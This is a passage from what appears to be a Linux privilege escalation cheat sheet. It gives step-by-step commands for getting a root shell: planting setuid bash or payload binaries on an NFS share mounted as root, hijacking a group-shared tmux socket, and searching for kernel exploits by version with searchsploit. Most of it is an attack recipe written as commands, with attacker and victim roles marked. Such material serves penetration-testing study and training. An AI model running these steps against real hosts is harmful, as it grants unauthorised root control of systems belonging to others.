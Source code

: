 ```shell
#Attacker, as root user
mkdir /tmp/pe
mount -t nfs <IP>:<SHARED_FOLDER> /tmp/pe
cd /tmp/pe
cp /bin/bash .
chmod +s bash

#Victim
cd <SHAREDD_FOLDER>
./bash -p #ROOT shell
```

```shell
#Attacker, as root user
gcc payload.c -o payload
mkdir /tmp/pe
mount -t nfs <IP>:<SHARED_FOLDER> /tmp/pe
cd /tmp/pe
cp /tmp/payload .
chmod +s payload

#Victim
cd <SHAREDD_FOLDER>
./payload #ROOT shell
```

### Hijacking Tmux Sessions
if a session was created like this 
```
$ tmux -S /shareds new -s debugsess
$ chown root:devs /shareds
```
if we are in the dev group, we can attach to this session and gain root access.
```shell
$ ps aux | grep tmux

$ id

$ tmux -S /shareds
```

# Linux Internals-based Privilege Escalation

## Kernel Exploits
check for the kernal version for cve
```shell
uname -a

cat /etc/lsb-release

searchsploit Linux Kernel 4.15.0

searchsploit Ubuntu 18.04
```
## Shared Libraries
**there are two types of libraries exist in Linux:** 
- static libraries (denoted by the `.a` file extension) 
- dynamically linked shared object libraries (denoted by the `.so` file extension).
